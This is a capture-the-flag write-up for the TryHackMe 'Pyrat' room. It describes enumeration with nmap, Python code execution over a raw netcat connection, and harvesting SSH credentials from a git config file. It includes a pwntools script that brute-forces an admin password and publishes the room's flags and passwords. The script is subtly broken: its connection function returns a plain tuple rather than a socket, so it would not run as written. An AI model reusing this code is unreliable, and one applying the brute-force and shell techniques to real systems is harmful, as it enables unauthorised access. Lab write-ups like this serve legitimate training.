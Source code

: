 ## Pyrat - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/pyrat)

<i>**Pyrat receives a curious response from an HTTP server, which leads to a potential Python code execution vulnerability. 
With a cleverly crafted payload, it is possible to gain a shell on the machine. Delving into the directories, the author uncovers a well-known folder that provides a user with access to credentials. 
A subsequent exploration yields valuable insights into the application's older version. Exploring possible endpoints using a custom script, the user can discover a special endpoint and ingeniously expand their exploration by fuzzing passwords. 
The script unveils a password, ultimately granting access to the root.**</i>

**IP: 10.10.23.85**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Python, Enumeration <br>

**Tools Used**: Nmap, pwntools

[pwntools](https://github.com/Gallopsled/pwntools)<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Started with Nmap scan as always.

  ```
  nmap -A -p- 10.10.23.85

  PORT     STATE SERVICE  REASON
  22/tcp   open  ssh      syn-ack ttl 63
  8000/tcp open  http-alt syn-ack ttl 63
  OS details: Linux 4.15  
  Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
  
  ssh -> Version: OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
  http-alt -> Version: SimpleHTTP/0.6 Python/3.11.2, also a server header
  | fingerprint-strings: 
  |   DNSStatusRequestTCP, DNSVersionBindReqTCP, JavaRMI, LANDesk-RC, NotesRPC, Socks4, X11Probe, afp, giop: 
  |     source code string cannot contain null bytes
  |   FourOhFourRequest, LPDString, SIPOptions: 
  |     invalid syntax (<string>, line 1)
  |   GetRequest: 
  |     name 'GET' is not defined
  |   HTTPOptions, RTSPRequest: 
  |     name 'OPTIONS' is not defined
  |   Help: 
  |_    name 'HELP' is not defined
  ```
  
- OK, then I visited web app and got a message `Try a more basic connection!`. Right... netcat exists.

  ```
  sudo nc 10.10.23.85 8000 -v
  ```
  
- After connecting with netcat, you need to use Python syntax in order to move around.

  ```
  print("Hello") -> Hello
  print(os.listdir('/')) -> lists directories
  ```

---

## ⚙️ Gaining Access

- After exploring for a while, I found an email that mentions Git directory with old `pyrat` code and when I found that directory there were credentials for SSH.

  ```
  print(os.listdir('/opt/dev/.git')) 
  print(open('/opt/dev/.git/config', 'r').read())
  [core]
          repositoryformatversion = 0
          filemode = true
          bare = false
          logallrefupdates = true
  [user]
          name = Jose Mario
          email = josemlwdf@github.com
  
  [credential]
          helper = cache --timeout=3600
  
  [credential "https://github.com"]
          username = think
          password = _TH1NKINGPirate$_
  ```
  
- Awesome, use this credentials `think:_TH1NKINGPirate$_` to login with SSH.

---

## 🧍 User Privilege Escalation

- User flag is pretty straightforward: `996bdb1f619a68361417cabca5454705`

---

## 👑 Root Privilege Escalation

- For root flag, I was trying for a while to escalate from inside but unfortunately couldn't make it work, so I switched to writing scripts since this whole challenge is Python based.
  I wrote 3 different scripts, 1 for endpoint fuzzing, 1 for password fuzzing and 1 for shell access. I will post just 1 script here since you should practice your Python skills! (shell.py script is not needed for this challenge)
  
- When I ran script for endpoint enumeration, I found 3 endpoits: `shell: $`, `admin:`, `Password:`

  ```python3 end_fuzz.py```
  
- Then I moved to password fuzzing which gave me: `admin, password: abc123`

  ```
  python3 pw_fuzz.py

  from pwn import *

  host = "TARGET-IP"
  port = 8000
  password_file = "/full/path/to/rockyou.txt"
  
  #connect to target
  def connect_to_service():
      return (host, port)
  
  #brute forcing 
  def attempt_password(password):
      
      conn = connect_to_service()
      conn.sendline(b"admin") #send 'admin' as username
      conn.recvuntil(b"Password:")
      conn.sendline(password.encode()) #send password from list
  
      response = conn.recvline(timeout=2)
      response = conn.recvline(timeout=2)
  
      if b"Password:" in response:
          print(f"Password {password} failed.")
          conn.close()
          return False
  
      elif b"Welcome" in response or b"Success" in response:  
          print(f"Correct password: {password} ")
          conn.close()
          return True
  
      else:
          print(f"Unexpected response for password {password}. Response: {response}")
          conn.close()
          return False

  #loops through pw list
  def fuzz_passwords():
      with open(password_file, "r", encoding="utf-8") as f:
          for password in f:
              password = password.strip()
              if attempt_password(password):
                  print(f"Found working password: {password}")
                  break
  
  if __name__ == "__main__":
      fuzz_passwords()
  ```

- Alrighty, since I have admin credentials getting root flag is pretty simple now and there's 2 ways to do it, both options will work.

- First option: Connecting with netcat as admin

  ```
  sudo nc 10.10.23.85 8000 -v
  admin
  Password:
  abc123
  
  Welcome Admin!!! Type "shell" to begin
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Second option: create a script in Python that will spawn interactive shell as root

  ```
  python3 shell.py
  Server response after sending 'admin': Password:
  
  Sending password: abc123
  Server response for password 'abc123': Welcome Admin!!! Type "shell" to begin
  
  Sent 'shell' command. Waiting for shell response...
  Shell response: # 
  Enter command to execute:
  
  pwd
  ls
  cat root.txt
  ba5ed03e9e74bb98054438480165e221
  ```

- Here's the [documentation for pwntools](https://docs.pwntools.com/en/stable/), for installing them in Kali use `sudo apt install python3-pwntools`. Practice Practice Practice Practice Practice!

---

## 🏁 Flags

- **User Flag**: `996bdb1f619a68361417cabca5454705`
- **Root Flag**: `ba5ed03e9e74bb98054438480165e221`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `It was a different type of challenge then the ones I am used to, so it was kinda weird but fun!`

- What did I learn?
  `Sharpening my Python skill and practicing pwntools.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
